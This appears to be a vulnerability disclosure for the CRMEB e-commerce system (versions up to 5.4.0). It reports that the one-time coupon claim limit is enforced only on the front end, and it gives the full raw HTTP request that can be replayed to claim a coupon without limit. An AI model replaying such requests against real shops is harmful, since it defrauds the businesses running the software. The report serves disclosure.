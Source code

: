 ### Target

https://github.com/crmeb/CRMEB

### Version

<=5.4.0

### Description

At present, there is a business logic vulnerability in the system. Users can bypass the front-end restriction of only being able to claim coupons once by capturing packets and sending a large number of data packets for coupon collection, achieving unlimited coupon collection.

### Details

```
POST /api/coupon/receive HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 17
sec-ch-ua: "Chromium";v="124", "Microsoft Edge";v="124", "Not-A.Brand";v="99"
Authori-zation: Bearer 
sec-ch-ua-mobile: ?0
Authorization: Bearer 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Form-type: pc
Content-Type: application/json;charset=UTF-8
Accept: application/json, text/plain, */*
sec-ch-ua-platform: "Windows"
Origin: https://v5.crmeb.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://v5.crmeb.net/goods_detail/914
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: 

{"couponId":1634}
```

Sending a large number of data packets to achieve unlimited collection of coupon number 1634

![image-20241010114745749](image-20241010114745749.png)

![image-20241010114811827](image-20241010114811827.png)